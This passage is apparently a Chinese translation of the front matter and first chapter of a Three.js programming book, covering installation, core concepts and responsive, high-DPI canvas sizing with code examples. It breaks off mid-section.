





# JavaScript 征服指南：Three.js


## 征服 JavaScript

你是否思考过，这些视觉效果和游戏是如何在 Web 浏览器中呈现的？其核心技术是什么？当然，仅凭 HTML 和 CSS 是远远不够的。Three.js 是一个免费的 JavaScript 工具包，用于在 Web 浏览器中显示图像、3D 和 2D 对象，它允许你利用 GPU（图形处理单元）在浏览器的画布（canvas）画布上渲染图形和 3D 对象。

《征服 JavaScript：Three.js》旨在帮助读者掌握 Three.js 框架，以实现更快速且健壮的开发。本书是一本详细的指南，将帮助开发者和编程人员通过 Three.js 实现更多功能。它简要介绍了基础知识，随后进入更高级且详细的练习，帮助读者快速获取所需知识。

关键特性：
- 探讨 JavaScript 的特定内容，重点关注图形库
- 讨论使用 Three.js 创建动画图形
- 提供代码优化技巧和解决方案

本书对于 Three.js 开发者以及从事游戏开发、移动应用、渐进式应用（PWA）以及现在的桌面应用开发的人员来说，都是一份宝贵的参考资料。

## 关于本系列

*征服 JavaScript* 系列涵盖了广泛的主题，专门针对 JavaScript 编程生态系统（如框架和库）。该系列的每本书都专注于一个单一主题并对其进行详尽探讨，特别强调实际应用和面向代码的方法，遵循行业标准编码范式，以帮助学习者获得可用于实际项目的实用专业知识。

本系列书籍的一些关键特点包括：
- 文本清晰易懂，涵盖各种 JavaScript 相关主题并按相关性排序，
- 特别注重实践练习，包含大量代码示例和程序，
- 采用引导式 JS 编码方法，提供逐步教程和演示，
- 极其强调技能的实际效用，从而剔除冗余、极少使用的概念和臃肿内容，以及
- 提供广泛的参考资料和资源，帮助读者从书中获得最大收益。

*征服 JavaScript* 系列书籍假设读者具备基础的编程基础知识。

*征服 JavaScript* 系列由 Sufyan bin Uzayr 编辑，他是一位在计算领域拥有十多年经验的作家和教育者。Sufyan 拥有多个学位，曾在全球多所大学和机构任教。截至目前，Sufyan 已编写和编辑了 50 多本书，为本系列带来了丰富的经验。欲了解更多关于其作品的信息，请访问 [sufyanism.com](http://sufyanism.com)。

https://www.routledge.com/Conquering-JavaScript/book-series/CRCCONJAV


由 KnowledgeWorks Global Ltd. 使用 Minion 字体排版

献给父亲


## 关于编辑

**Sufyan bin Uzayr** 是一位作家、程序员和企业家，在行业内拥有十多年的经验。他过去曾撰写过多本书籍，涵盖从历史到计算机/IT 等广泛的主题。

Sufyan 是 Parakozm 的总监，这是一家专注于教育技术（EdTech）解决方案的跨国 IT 公司。他还运营着 Zeba Academy，这是一个专注于 STEM 领域的在线学习与教学平台。

Sufyan 精通多种技术，如 JavaScript、Dart、WordPress、Drupal、Linux 和 Python。他拥有多个学位，包括管理学、IT、文学和政治学。

Sufyan 是一位数字游民，时间分布在四个国家之间。他在全球众多大学和教育机构生活并任教。Sufyan 对技术、政治、文学、历史和体育有着浓厚的兴趣，在业余时间，他喜欢向年轻学生教授编程和英语。

了解更多请访问 [sufyanism.com](http://sufyanism.com)

## 致谢

有许多人应当出现在这个页面上，因为如果没有他们的支持，这本书就不会诞生。即便如此，有些名字值得特别提及，我衷心感谢：

- 我的父母，感谢他们为我所做的一切。
- Parakozm 团队，特别是 Divya Sachdeva, Jaskiran Kaur 和 Simran Rao，在书籍编写过程中提供了巨大的帮助和支持。
- CRC 团队，特别是 Sean Connelly 和 Danielle Zarfati，确保了本书的内容、布局、格式以及所有其他细节在整个过程中保持完美。
- 本书的审稿人，感谢他们阅读手稿并提供见解和反馈。
- 排版员、封面设计者、印刷员以及所有其他参与本书开发的人员。
- 所有直接或间接与 Zeba Academy 相关的人员，感谢他们的帮助与支持。
- 广大的编程社区，特别是 Web 开发社区，感谢他们所有的辛勤工作与努力。

**Sufyan bin Uzayr**

## Zeba Academy – 征服 JavaScript

“征服 JavaScript”系列书籍由 Sufyan bin Uzayr 带领的 Zeba Academy 团队编写，成员包括：

- Divya Sachdeva
- Jaskiran Kaur
- Simran Rao
- Aruqqa Khateib
- Suleymen Fez
- Ibbi Yasmin
- Alexander Izbassar

Zeba Academy 是一家教育技术创业公司，主要为 STEM 领域的学习者开发课程和内容，并为全球的学习者和教育者提供教育咨询和指导。

此外，Zeba Academy 积极在独联体 (CIS) 国家运营 IT 学校，目前正与多家大学和机构开展合作。

欲了解更多信息，请访问 [https://zeba.academy](https://zeba.academy)


## 第一章
## 简介

## 本章内容
- Three.js 基础知识
- Three.js 的特性
- 优势与劣势

本章包含一个引导部分，将探讨与 Three.js 相关的基础和核心概念。同时还将讨论 Three.js 的优势与劣势。

每年， Web 浏览器都变得更加强大，拥有更多功能且性能更好。近年来，浏览器已成长为一个创建沉浸式、复杂且美观的应用程序的极佳平台。在大多数当前的应用程序中，使用了现代 HTML5 技术，如 web sockets、本地存储（local storage）以及先进的 CSS 样式方法。另一方面，大多数现代浏览器支持一项技术，可用于产生令人惊叹的 3D 图像和动画，并充分利用 GPU（图形处理单元）。这项技术名为 WebGL，由最新版本的 Firefox、Chrome、Safari 和 Internet Explorer 支持。您可以使用 WebGL 创建在浏览器中运行的 3D 场景，而无需使用任何插件。该标准在桌面端拥有广泛支持，且大多数现代设备和移动浏览器也完全支持它。为了开发 WebGL 应用，您需要学习一种名为 GLSL 的新语言，并掌握如何使用顶点着色器（vertex shaders）和片元着色器（fragment shaders）来渲染 3D 几何体。

幸运的是，有几个 JavaScript 库封装了 WebGL 的内部细节，并提供了一个 JavaScript API，使您无需理解 WebGL 最复杂的功能即可使用。Three.js 是这些库中开发最成熟、功能最丰富的一个。

Three.js 成立于 2010 年，提供了一系列极其丰富的简单 API，这些 API 开放了 Three.js 的所有功能，使您能够在浏览器中快速创建复杂的 3D 场景和动画。

Three.js 的 API 允许您几乎可以随心所欲地进行创作。

### Three.js 速成课程

您是否思考过这些视觉效果和游戏是如何在 Web 浏览器中显示的？其核心技术是什么？当然，仅使用 HTML 和 CSS 是不够的。这项工作之前是通过 WebGL 完成的。WebGL（Web Graphics Library）是一个 JavaScript API，允许您在浏览器中渲染三维对象、二维对象和图形。用户可以使用 WebGL API 在网页上与交互式信息进行交互，而无需下载或安装任何插件。WebGL 允许开发人员使用 OpenGL ES 代码格式以低级别访问硬件。

Mozilla 组织发明了 WebGL。尽管有所有这些优势，WebGL 也有某些劣势，这导致了名为 Three.js 的免费 JavaScript 工具集的推出。WebGL 是一项非常简单的技术，仅能渲染点、正方形和直线等基础对象。如果您想用 WebGL 完成任何严肃的任务，需要编写大量代码，这就是 Three.js 发挥作用的地方。

### 什么是 Three.js？

Three.js 是一个免费的 JavaScript 工具集，用于在 Web 浏览器中显示图像、3D 和 2D 对象。在幕后，它利用了 WebGL API。Three.js 使您能够使用 GPU 在 Web 浏览器的 canvas 上渲染图形和 3D 对象。由于我们使用了 JavaScript，因此还可以与其他 HTML 组件进行交互。2010 年 4 月，来自巴塞罗那的计算机图形程序员 Ricardo Cabello 推出了 Three.js。

Three.js 可以下载，文档可在 [https://threejs.org](https://threejs.org) 找到。由于它包含大量的示例和支持材料，下载包相当大。Three.js 的主要功能定义在一个名为 “Three.js” 的大型 JavaScript 文件中，该文件位于 Three.js 下载包的 build 目录下。

### three.js


JavaScript 3D 库

该项目的目标是创建一个易于使用、轻量级、跨浏览器且通用的 3D 库。目前的构建版本仅包含 WebGL 渲染器，但在示例中还提供了 WebGPU（实验性）、SVG 和 CSS3D 渲染器。

示例 — 文档 — Wiki — 迁移 — 问题 — 论坛 — Slack

### 用法

这段代码创建了一个场景、一个相机和一个几何立方体，并将立方体添加到场景中。然后，它为该场景和相机创建了一个 WebGL 渲染器，并将该视口添加到 `document.body` 元素中。最后，它为相机在场景中对立方体进行动画处理。

```javascript
import * as THREE from 'three';

// init

const camera = new THREE.PerspectiveCamera( 70, window.innerWidth / window.innerHeight, 0.01, 10 );
camera.position.z = 1;

const scene = new THREE.Scene();

const geometry = new THREE.BoxGeometry( 0.2, 0.2, 0.2 );
const material = new THREE.MeshNormalMaterial();

const mesh = new THREE.Mesh( geometry, material );
scene.add( mesh );

const renderer = new THREE.WebGLRenderer( { antialias: true } );
renderer.setSize( window.innerWidth, window.innerHeight );
renderer.setAnimationLoop( animation );
document.body.appendChild( renderer.domElement );

// animation

function animation( time ) {

	mesh.rotation.x = time / 2000;
	mesh.rotation.y = time / 1000;

	renderer.render( scene, camera );

}
```

如果一切顺利，您应该能看到这个效果。

Three.js 下载目录预览。

此版本兼容模块化和非模块化应用程序。Three.min.js 是一个更小的“压缩”版本，它以一种不旨在为人阅读的格式提供了相同的定义。您可以通过在 `<script>` 元素中包含其中任一脚本，在网页上利用 Three.js。例如，如果 three.min.js 与网页在同一个文件夹中，脚本元素将是：

```html
<script src="three.min.js"></script>
```

Three.js 下载包还包含一个具有许多示例的目录，以及在示例中使用的若干支持文件。示例中使用了许多未包含在 Three.js 核心库中的功能。这些插件可以在下载包的 examples 文件夹下的 js 文件夹中找到（对于模块化版本，则在名为 jsm 的文件夹中）。

### Three.js 回顾

让我们回到 20 世纪 90 年代，那时在互联网上观看视频还是一个遥远的梦想。非营利组织 Chronos Group 正在致力于 OpenGL（开放图形库），旨在为 Web 提供视觉效果。Mozilla 在 2006 年发布了一个 Web 图形库，允许用户使用 JavaScript 访问计算机的 GPU 并在 Web 上运行动态图形。此前，大多数工作是用 C 和 C++ 完成的，您需要处理 OpenGL 或 DirectX，但现在 WebGL 允许用户在 JavaScript（一种更现代且强大的编程语言）中执行同样的操作。您只需要一个 html canvas 元素。现在是互联网上交互式视频体验的时代。这时，Dube 先生或 Ricardo Cabello 出场了。Three.js 是一个全新的 JavaScript 库，它增强了 WebGL 的能力并实现了交互式视频。它提供了一个前沿的 API，允许像我们这样的开发人员快速创建 3D 体验并将其部署在 Web 上。

### 为什么我们要使用 Three.js？

使用它的原因有很多，以下列举几个：

- 因为 Three.js 是开源的，我们可以轻松地检查源代码并发现它是如何工作的（函数）。
- 当我们使用 WebGL 进行图形处理时，它不兼容大多数浏览器；但 Three.js 可以。
- 代码运行不需要任何第三方插件。
- 仅需要一种编程语言 JavaScript，当然还有 HTML。

### 如何集成 Three.js

将 Three.js 集成到项目中有多种方法；有些很简单，有些则更复杂；无论如何，它们都要求我们在项目中包含以下文件之一：

- Three.js
- three.min.js
- three.module.js

这些都可以从 Three.js 的 GitHub 网站上获取。



Three.js GitHub 网站预览。

方法 1：（下载整个 Three.js 项目）：最简单的方法就是将整个 Three.js 项目下载到您的计算机上并使用其中的文件。Three.js 的最新版本可以在其 GitHub 页面上找到。下载完成后，打开它并在 build 文件夹中查找那三个脚本。

方法 2：（使用 NPM 或 YARN 安装 Three.js 包）：在 NPM 上，Three.js 也可以作为一个包获取。这意味着如果您的计算机安装了 Node.js 和 NPM，您可以打开命令行并输入：

```bash
npm i three
```

然后，通过引用 three 包，您可以将 Three.js 从 three.module.js 文件导入到您的 JavaScript 文件中：(“Introduction to Three.js – GeeksforGeeks”)

```javascript
import * as THREE from "three";
```

如果你更喜欢使用 Yarn 而不是 NPM，也可以在终端窗口中使用以下命令来添加该包：

```
yarn add three
```

### 方法 3：（通过 CDN 链接）

CDN（内容分发网络）是用于存储网站文件的远程站点。实际上，Three.js.org 网站本身就可以作为 CDN 使用。你可以使用以下链接来引用 Three.js 文件，并将其包含在你的 HTML 中：https://threejs.org/build/three.js

```html
<script src="https://threejs.org/build/three.js"></script>
```

然而，使用 three.js.org 的 CDN 链接存在一个问题，因为你将始终使用的是最新版本。在开发模式下这没有问题，但谈及生产环境时就不行了。如果更新后任何函数或语法发生变化，你的代码就会停止工作。因此，我们建议使用来自以下站点的 CDN：

- cdnjs.com
- www.jsdelivr.com


用于 Three.js CDN 链接的 cdnjs 网站预览。


用于 Three.js CDN 链接的 jsdelivr 网站预览。

## 运行 Three.js 应用程序需要什么？

在本节中，我们将介绍构建和运行 Three.js 应用程序所需的硬件和软件，并介绍一些基本概念。

### 一台电脑

首先，你需要一台电脑；但它不需要很快、很高端或配备强大的显卡。拥有一台性能较差、GPU 较弱的电脑可能反而更好，因为这样你就能以大多数用户相同的方式体验你的程序。

### Three.js 开发者

作为一名 Three.js 开发者，你需要具备 HTML 和 CSS 的基础知识，以及一些 JavaScript 技能。不过，你不必是这些领域中的任何专家。

### 文本编辑器

你需要文本编辑软件。VSCode 是最流行的 Web 开发编辑器，其次是 Atom 和 Sublime Text。这些编辑器允许你安装诸如代码检查器（linters）和代码格式化工具（formatters）之类的插件，在你输入时检查代码风格，而如果你安装了足够多的插件，编辑器就会崩溃，给你一个看起来和感觉上都像功能完整的 IDE 的东西。

### 网络浏览器

几乎任何网络浏览器都可以运行 Three.js，而无法运行它的过时浏览器比例很小，并且在快速减少。你甚至可以在 Internet Explorer 9 上运行 Three.js 应用程序，该浏览器于 2011 年发布，在撰写本章时仅占所有网络用户的不到 0.1%。如今大多数人使用现代浏览器访问互联网，因此浏览器支持不是问题。

你还可以在各种奇特的环境中运行 Three.js 程序，例如 Node.js、Electron.js 或 React Native；但这需要一些努力，超出了本书的范围。我们将重点介绍使用 Firefox、Chrome、Edge 和 Safari 等现代网络浏览器来运行你的应用程序。

### Web 服务器

在 HTML 文件中引用的任何 JavaScript 都可以直接在网络浏览器中打开时运行。许多简单的 Three.js 示例就是这样工作的。由于浏览器的安全限制，如果不先设置 Web 服务器，你无法加载图形或 3D 模型。如果你希望运行带有模型或纹理等资源的 Three.js 场景，你需要建立一个本地开发服务器。本书中的所有示例都使用页面内 fancy 的自定义内联代码编辑器来绕过这一要求，但当你开始构建自己的应用程序时，就需要设置服务器了。有许多用于开发的简单 Web 服务器可用。这些服务器易于搭建；然而，它们只能容纳少量同时访问者。不过，它们非常适合在发布之前本地测试你的工作。当你准备好发布网站时，你将切换到高性能的生产服务器，如 Apache 或 Nginx（发音为 engine-x，据说是这样）。

这些服务器可以容纳数百甚至数百万同时访问你网站的用户，但它们的设置较为复杂。幸运的是，有许多网络托管公司可以为你处理这些。当你准备好设置开发服务器时，请参阅 Three.js 文档中的[如何在本地运行](https://threejs.org/docs/#manual/en/introduction/How-to-run-things-locally)指南，其中包含了关于该主题的丰富信息。

### 浏览器开发者控制台

你的代码最终会停止工作，你需要找出原因。这就是调试技术的用途。浏览器开发者控制台是 Web 开发中最简单的基本调试技术，通常也是你唯一需要的。每个主要浏览器都内置了一个，通常可以通过按 F12 键访问。

### 支持 WebGL 的设备

WebGL 是一种可编程接口，或者说 JavaScript API，用于在网页中生成动态的 2D 和 3D 图形。WebGL 将你的网络浏览器连接到设备的图形硬件，为你提供比标准网站所能提供的更强大的图形处理能力。

WebGL 被 Three.js 用于显示 3D 图形，但它也可以用于 2D 图形，如 Alexander Perrin 的精彩作品 *Short Trip*，甚至通用 GPU 计算，如这些[flocking behavior](https://threejs.org/examples/webgl_gpgpu_birds)和[protoplanetary](https://threejs.org/examples/webgl_gpgpu_protoplanet)示例所示。

要使用 WebGL，你需要一个兼容的设备和浏览器。这曾经是一个令人担忧的问题，但如今你可以假设所有设备都支持 WebGL，而且每一部现代智能手机、平板电脑、PC、笔记本电脑，甚至智能手表都有能够运行简单 3D 场景的显卡。根据 [caniuse.com](http://caniuse.com) 和 [webglstats.com](http://webglstats.com) 的数据，在撰写本章时，大约 98% 的互联网用户使用支持 WebGL 的设备。如果你确实需要支持剩下的 2%，[WebGL 兼容性检查](https://threejs.org/docs/#manual/en/introduction/WebGL-compatibility-check)解释了如何向不支持 WebGL 的用户设备提供回退方案或警告消息。

## Three.js 用户——三个示例

让我们看看一些使用 Three.js 构建 3D 网络体验的网站。

- 第一个是 *Bruno Simon* 的网站。Bruno 是一位聪明的开发者和创意程序员，专注于 Three.js。在他的网站首页，你可以直接驾驶一辆汽车。你可以移动它，甚至用它打保龄球。
- 下一个展示的 3D 体验是 *Mozilla Hubs*，一种类似元宇宙的体验。它可以邀请他人进入共享办公空间，在 3D 环境中进行虚拟会议。你可以在这里走动、自定义物品并邀请他人。只要他们有会议室的 ID，就可以加入你的 3D 体验。让我们把这双鞋导入房间并添加到库中。现在你可以移动它并做其他操作。
- *Spline Design* 的网站完全使用 Three.js 构建。如果你是软件开发人员或产品经理，你很可能使用过 Figma 来设计物品。这个工具类似于 Figma，但它在三维空间中工作。这部分的所有内容都是为 3D 创作者设计的。

这是一个很好的例证，说明 Three.js 不仅可以用来创建虚拟体验，还可以用来构建基于 3D 设计的企业。

## 优点

我们现在已经了解了很多关于 Three.js 的知识；以下是所提到的一些优点：

- **易于学习**：上手非常容易。
- **示例众多**：由于其广泛的使用，有大量示例可以帮助你入门。
- **庞大的用户群体**：Three.js 拥有庞大的开发者社区，他们使用和构建第三方解决方案，这得益于它的普及度。
- **优秀的文档**：Three.js 提供了全面的文档，这通常是优质库的标志。
- **出色的性能**：Three.js 在性能方面优于其他库。
- **使用了 PBR 渲染**：Three.js 包含 PBR 渲染，提高了图形渲染的准确性。

## 缺点

Three.js 也有一些相关的缺点，如下所述：

- **没有渲染管道**：因此，许多最新的渲染技术无法或难以与 Three.js 配合使用。
- **这不是游戏引擎**：你不会在这里找到很多与渲染无关的功能。
- **面向初学者设计**：由于 API 面向初学者设计，许多高级功能被隐藏了。


- **缺乏支持：** 它没有内置的空间索引、精确射线检测（raycasting）或视锥体剔除（frustum culling）支持，且在复杂情况下的碰撞检测效率极低，浪费严重。

## 核心概念

Three.js 是一个免费的 JavaScript 库，让你能直接在浏览器中创建并渲染三维场景。为此，Three.js 拥有庞大的函数集和丰富的 API。Three.js 是一个 3D 工具包，旨在让在网页上展示 3D 素材变得尽可能简单。Three.js 的源代码可在 GitHub 仓库中找到。JavaScript 可用于创建 GPU 加速的 3D 动画。Three.js 经常与 WebGL 混淆，因为它经常（但并非总是）使用 WebGL 来绘制 3D。WebGL 是一个底层的图形系统，只能绘制点、线和三角形。为了用 WebGL 实现任何有价值的功能，你几乎总是需要编写大量代码，而这正是 Three.js 的用武之地。它处理场景、光照、阴影、材质、纹理和 3D 数学，如果你直接使用 WebGL，这些都需要你自己编写代码。

让我们先尝试让你了解 Three.js 项目是如何构建的。一个 Three.js 项目需要创建许多对象及其关联。

- 存在一个渲染器（renderer）。这可以说是 Three.js 最重要的对象。当你提供一个渲染器、一个场景（Scene）和一个相机（Camera）时，它会将相机视锥体内的 3D 场景部分渲染（绘制）为 2D 图像到画布（canvas）上。
- 场景图（scenegraph）是一个树状结构，由不同的项目组成，例如场景对象、多个网格（Mesh）对象、光照（Light）对象、组（Group）、Object3D 和相机对象。场景对象是场景图的根节点，包含背景颜色和雾化等属性。这些对象表示物体出现的位置以及它们在层级父/子树状结构中的定位方式。子对象相对于其父对象进行定位和定向。例如，汽车上的轮子可以被视为汽车的子对象，这意味着移动和定向汽车对象会自动移动轮子。更多信息请参阅场景图文章。
- 网格（Mesh）对象表示使用特定材质（Material）绘制给定的几何体（Geometry）。多个网格对象可以共用材质和几何体元素。例如，为了描述两个位于不同位置的蓝色立方体的位置和方向，我们可能需要两个网格对象。存储立方体顶点数据仅需要一个几何体，而指示蓝色仅需要一个材质。这两个网格对象可以引用同一个几何体对象和材质对象。
- 几何体（Geometry）对象表示球体、立方体、平面、狗、猫、人、树、建筑或其他几何形状的顶点数据。("Fundamentals – Three.js") Three.js 包含广泛的几何原语。你也可以从文件中加载几何体或生成自定义几何体。
- 材质（Material）对象表示用于渲染几何体的表面属性，如颜色和不透明度。材质还可以指向一个或多个纹理（Texture）对象，例如，纹理可用于将图像包裹在几何体表面。
- 从图片文件加载、由画布产生或从另一个场景显示的图像都是纹理对象的例子。
- 光照对象表示不同类型的照明。

## 自适应设计

它将教你如何让 Three.js 应用响应任何情况。让网页具有响应式意味着它在从计算机到平板电脑再到手机的各种屏幕尺寸上都能高效运行。使用 Three.js 还有更多场景需要探索。例如，我们可能想要处理一个带有左、右、上或下控制面板的 3D 编辑器。另一个例子是文档中心的一个实时图表。在之前的示例中，我们使用了一个没有 CSS 且没有尺寸的纯画布。

```html
<canvas id="c"></canvas>
```

默认的画布尺寸是 300 × 150 CSS 像素。CSS 是在 Web 平台上设置元素尺寸的推荐方法。

让我们使用 CSS 让画布填充整个页面。

```css
<style>
html, body {
    margin: 0;
    height: 100%;
}
#c {
    width: 100%;
    height: 100%;
    display: block;
}
</style>
```

HTML 中的默认外边距（margin）是 5 像素；因此，将外边距设置为 0 可以移除它。当 html 和 body 的高度设置为 100% 时，它们将占据整个窗口。否则，它们的大小仅取决于填充其中的内容。

然后，*id = c* 的元素被告知其大小为其容器的 100%，在本例中是文档的 body。

最后，我们将显示模式改为 block。画布的默认显示模式是 inline。行内元素可能会导致显示更多的空白区域。将画布设置为 block 可解决此问题。结果可以在结果页面上可视化。¹ 当你观察结果时，可能会注意到画布现在已完全填充页面；然而，存在两个问题。我们的立方体被拉伸了。它们看起来像长方体而不是立方体。要么太高，要么太宽。通过在独立窗口中打开示例来调整大小，你会看到立方体是如何变得更宽或更高。

第二个问题是它们看起来分辨率较低，有锯齿且模糊。将窗口扩展到最大尺寸即可清晰地看到该问题。

让我们先从拉伸问题开始。为了解决这个问题，我们需要将相机的纵横比（aspect ratio）与画布的显示尺寸相匹配。我们可以通过查看画布的 `clientWidth` 和 `clientHeight` 属性来实现。这就是我们将更新渲染循环的方式。

```javascript
function render(time) {
    time *= 0.001;
    const canvas = renderer.domElement;
    camera.aspect = canvas.clientWidth / canvas.clientHeight;
    camera.updateProjectionMatrix();
}
```

结果可以在页面上可视化。² 现在让我们解决锯齿问题。

画布元素有两种尺寸。一种是画布在页面上呈现的尺寸，这就是 CSS 允许我们设置的。另一种是画布本身的像素量。这类似于照片。例如，一个 128 × 64 像素的图像可以使用 CSS 显示为 400 × 200 像素。

```html

```

绘制缓冲区（drawing buffer）大小是指画布的内部尺寸，即其分辨率。通过在 Three.js 中执行 `renderer.setSize`，我们可以更改画布的绘制缓冲区大小。我们应该选择哪个尺寸？最明显的答案是“与呈现的画布尺寸相同”。同样地，我们可以使用画布的 `clientWidth` 和 `clientHeight` 参数来实现这一点。

让我们构建一个函数，检查渲染器的画布是否已经是它显示的尺寸，如果不是，则将其设置为该尺寸。

```javascript
function resizeRendererToDisplaySize(renderer) {
  const canvas = renderer.domElement;
  const width = canvas.clientWidth;
  const height = canvas.clientHeight;
  const needResize = canvas.width !== width || canvas.height !== height;
  if (needResize) {
    renderer.setSize(width, height, false);
  }
  return needResize;
}
```

我们检查画布是否真的需要调整大小。如果画布已经处于我们想要的尺寸，建议不要调整大小。一旦确认需要调整，我们就调用 `renderer.setSize` 并传入新的宽度和高度。在结尾返回 `false` 至关重要。`renderer.setSize` 默认会设置画布的 CSS 尺寸，但这并不是我们想要的。我们希望浏览器像处理所有其他元素一样，利用 CSS 来决定元素的显示尺寸。我们不希望这三个画布与其他部分有所不同。

如果画布被调整了大小，我们的函数将返回 `true`。我们可以利用这一点来查看是否有其他需要更新的项目。让我们更新渲染循环以利用这个新函数。

```javascript
function render(time) {
  time *= 0.001;
  if (resizeRendererToDisplaySize(renderer)) {
    const canvas = renderer.domElement;
    camera.aspect = canvas.clientWidth / canvas.clientHeight;
    camera.updateProjectionMatrix();
  }
}
```

我们仅在 `resizeRendererToDisplaySize` 返回 `true` 时才设置相机的纵横比，因为只有当画布的显示尺寸改变时，纵横比才会改变。现在它应该以与画布显示尺寸相对应的分辨率进行渲染。³

让我们将代码放在一个单独的 .js 文件中，以演示让 CSS 管理尺寸调整的意义。这里还有几个让 CSS 选择尺寸的示例，你会注意到无需更改任何代码即可使它们正常运行。让我们把立方体放在句子的中间。

```html
<p>Data science is a field of study that works with large amounts of data and uses cutting-edge tools and techniques to uncover hidden patterns, generate useful data, and make business decisions. To create prediction models, data scientists use complicated machine learning algorithms.
Data for analysis can come from a variety of sources and be provided in a variety of formats.
Let's look at why data science is important in today's IT market now that you know what it is.<canvas id="c"></canvas> Data science is a field of study that works with large amounts of data and uses cutting-edge tools and techniques to uncover hidden patterns,
</p>
```


生成有用的数据，并做出商业决策。为了创建预测模型，数据科学家使用了复杂的机器学习算法。用于分析的数据可以来自多种来源，并以多种格式提供。

```html
<script type="importmap">
{
"imports": {
"three": "https://threejs.org/build/three.module.js"
}
}</script><script type="module" src="https://threejs.org/manual/examples/threejs-responsive.js"></script>
```

这里是在编辑器样式布局中的同一段代码，右侧带有一个可调节大小的控制框。需要注意的重要一点是，代码本身没有改变，仅修改了我们的 HTML 和 CSS。⁴

## 处理高分辨率显示器

高每英寸点数（dot per inch）显示器被称为 HD-DPI。大多数 Mac 和许多 Windows 设备，以及几乎所有智能手机都属于这一类。在浏览器中，它们使用 CSS 像素来设置尺寸，这种设计旨在无论显示分辨率如何都能保持一致。浏览器只需在相同的物理尺寸下生成更细腻的文本即可。在使用 Three.js 时，您可以通过多种方式管理 HD-DPI。

第一种方法是不做任何特殊处理。渲染 3D 视觉效果需要大量的 GPU 处理能力。至少在 2018 年之前，尽管手机经常配备高分辨率显示屏，但移动端 GPU 的性能仍弱于桌面端 GPU。目前顶级的手机具有 3$\times$ 的 HD-DPI 比例，这意味着对于非 HD-DPI 显示屏上的每一个像素，它们包含九个像素。这意味着它们必须渲染九倍的内容。

由于计算 9$\times$ 的像素量工作量巨大，如果我们不对代码做处理，我们仅计算 1$\times$ 的像素，而浏览器会将其以 3$\times$ 的尺寸渲染（3$\times$ by 3$\times$ = 9$\times$ 像素）。对于任何重量级的 Three.js 项目，这可能正是您想要的；否则，您的帧率会变得很低。然而，如果您确实希望以设备的原生分辨率进行渲染，Three.js 中有几种方法可以实现。

一种选择是使用渲染器向 Three.js 提供分辨率倍数 `setPixelRatio`。您向浏览器请求 CSS 到设备像素的乘数，然后将其发送给 Three.js。

```javascript
renderer.setPixelRatio(window.devicePixelRatio);
```

在那之后，任何对渲染器的 `setSize` 调用都将使用您指定的尺寸乘以您指定的像素比。这种做法是被严格不鼓励的。请看接下来的内容。您也可以在调整画布（canvas）大小时手动处理。

```javascript
function resizeRendererToDisplaySize(renderer) {
    const canvas = renderer.domElement;
    const pixelRatio = window.devicePixelRatio;
    const width  = canvas.clientWidth  * pixelRatio | 0;
    const height = canvas.clientHeight * pixelRatio | 0;
    const needResize = canvas.width !== width || canvas.height !== height;
    if (needResize) {
      renderer.setSize(width, height, false);
    }
    return needResize;
}
```

第二种选择在客观上更优。为什么？因为这意味着我能完全得到我想要的结果。在使用 Three.js 时，我们经常需要知道画布绘制缓冲区的尺寸，例如在创建后期处理滤镜或使用 `gl_FragCoord` 的着色器、截屏、为 GPU 拾取读取像素、绘制到 2D 画布等场景。如果在许多情况下使用 `setPixelRatio`，我们的实际尺寸将与我们请求的尺寸不同，我们将不得不猜测何时使用请求的尺寸，何时使用 Three.js 实际使用的尺寸。

因为是我们自己处理的，所以我们始终知道正在使用的尺寸就是我们请求的尺寸。不存在后台发生“魔法”的情况。虽然可能难以察觉，但如果您拥有 HD-DPI 显示屏并将此示例与上面的示例进行比较，您应该会注意到边缘更加锐利。本文讨论了一个非常基础但重要的主题。

## 前提条件

本文假设您熟悉 JavaScript 编程。假设您理解 DOM、HTML 以及如何在 JavaScript 中构建 DOM 元素。假设您熟悉 ES6 模块以及如何使用 `import` 和 `<script type="module">` 标签来利用它们。假设您熟悉 CSS 并知道什么是 CSS 选择器。他们还假设您熟悉 ES5、ES6 以及可能的 ES7。假设您意识到 JavaScript 在浏览器中仅通过事件和回调函数执行。他们认为您熟悉“闭包（closure）”这个术语。

这里有一些快速的提醒和注意事项。

## ES6 模块

脚本中的 `import` 关键字或 `<script type="module">` 标签可用于内联加载 ES6 模块。以下是两者的示例。

```html
<script type="module">
import * as THREE from '../build/three.module.js';
...
</script>
```

必须使用绝对路径或相对路径。与 ``、`<a>` 等标签以及 CSS 引用不同，相对路径必须始终以 `./` 或 `../` 开头。

更多信息请参见底部章节。

`document.querySelector` 和 `document.querySelectorAll`
要选择第一个匹配 CSS 选择器的元素，请使用 `document.querySelector`。`document.querySelectorAll` 则返回所有符合 CSS 选择器的元素。

**您不需要 onload**
过去 20 年里的许多页面使用如下 HTML：
```html
<body onload="somefunction()">
```
这是一种过时的方式。脚本应该放置在页面的底部。

```html
<html>
<head>
